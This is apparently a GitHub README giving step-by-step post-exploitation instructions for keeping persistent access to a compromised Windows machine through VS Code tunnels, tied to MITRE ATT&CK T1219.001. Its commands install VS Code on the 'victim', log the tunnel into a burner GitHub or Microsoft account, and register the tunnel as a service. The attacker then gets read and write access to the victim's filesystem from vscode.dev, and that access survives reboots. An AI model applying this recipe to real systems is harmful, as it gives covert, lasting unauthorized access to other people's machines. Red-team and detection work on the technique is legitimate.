






# WINDOWS PERSISTENCE VIA VSCODE TUNNELS  

## Abstract  
This directory contains some post-exploitation scripts and commands to (semi)automate windows persistence via [*vscode tunnels*](https://code.visualstudio.com/docs/remote/tunnels). 

## Technique
MITRE ATT&CK: [*Remote Access Tools - IDE Tunneling*](https://attack.mitre.org/techniques/T1219/001/)  

## Prerequisites  
- Access to a target windows machine with valid credentials and local administrative rights.  
- Powershell enabled for the current user on windows.  
- A burner Github or Microsoft Account.  
- An attacker machine with a browser and internet connection.  
  
## Instructions  

All the PS scripts are inside the `powershell` folder.  
If vscode is not already installed on the victim windows machine, you can automate the installation by launching the following script:  
```sh
.\installvs.ps1
```  
  

  


Once installed, you can close the current PS session.  

At this point you have locally installed VsCode, as well as the code-cli.  
You can procede to create a new tunnel with the following command (change the provider if you want to use microsoft instead of Github):  
```sh
code tunnel user login --provider github
```  

This will print a url and a code, reach that url and login with your burner account:  
  
   


Now that you are all set, start the tunnel with the following command:  
```sh
code tunnel service install --accept-server-license-terms --name "whatever-you-want-here"
```  

Then run the following to see the tunnel status:  
```sh
code tunnel status
```  
  

Now, from a browser on you attacker machine, navigate to [https://vscode.dev](https://vscode.dev/) and connect to your tunnels via your github (or microsoft user):  
  

At this point you have both read and write access to the victim filesystems and the connection is persisted via the tunneling services even after the victim machine reboots!!  
  

In the end, if you want to delete the tunnel and disable the tunneling service, you need to run the following command on the victim machine:  
```sh
 code tunnel service uninstall; code tunnel kill ; code tunnel prune ; code tunnel status
```  


